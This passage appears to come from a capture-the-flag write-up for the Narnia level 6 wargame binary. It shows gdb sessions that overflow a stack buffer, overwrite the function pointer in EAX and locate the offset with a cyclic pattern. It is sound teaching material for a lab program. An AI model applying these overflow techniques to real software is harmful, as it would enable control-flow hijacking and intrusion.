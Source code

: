 As we can see, the stack holds 8 B's (`0x42`) and 8 A's (`0x41`).
Now let's continue and examine the second break point.
```ruby
(gdb) c
Breakpoint 2, 0x08049331 in main ()
(gdb) x/x $eax
0x8049080 <puts@plt>: 0xb1fc25ff
```

As we thought in the beginning, the program calls `$EAX` which is the `puts()` function to print the value of the first parameter.
Continuing the process results in the printing of `AAAAAAAA`.
```ruby
(gdb) c
Continuing.
AAAAAAAA
```

Now, let's explore and find our buffer overflow.

```ruby
(gdb) r $(python3 -c "print('A'*20 + ' ' + 'B'*20)")
Breakpoint 1, 0x080492f7 in main ()
(gdb) x/16xw $esp
0xffffd564: 0xffffd56c 0xffffd7ab 0x42424242 0x42424242
0xffffd574: 0x42424242 0x42424242 0x42424242 0x41414100
0xffffd584: 0x41414141 0xf7ffd000 0xf7c21519 0x00000003
0xffffd594: 0xffffd644 0xffffd654 0xffffd5b0 0xf7e2a000
(gdb) c
Continuing.
Breakpoint 2, 0x08049331 in main ()
(gdb) x/x $eax
0x42424242: Cannot access memory at address 0x42424242
```

We can see that we successfully overwrote $EAX to hold `0x42424242`. 
The program tries to execute `0x42424242` but fails, as expected.
Knowing that we can overflow `EAX` with B's, we need to find which Bs are responsible for overflowing. For this case we could use the tool [Buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/). 
Generating a 20 char string:
```rust
Aa0Aa1Aa2Aa3Aa4Aa5Aa
```

```rust
Starting program: /narnia/narnia6 AAAAAAAA Aa0Aa1Aa2Aa3Aa4Aa5Aa
Breakpoint 1, 0x080492f7 in main ()
(gdb) c
Continuing.
Breakpoint 2, 0x08049331 in main ()
(gdb) x/x $eax
0x61413561: Cannot access memory at address 0x61413561
(gdb)
```
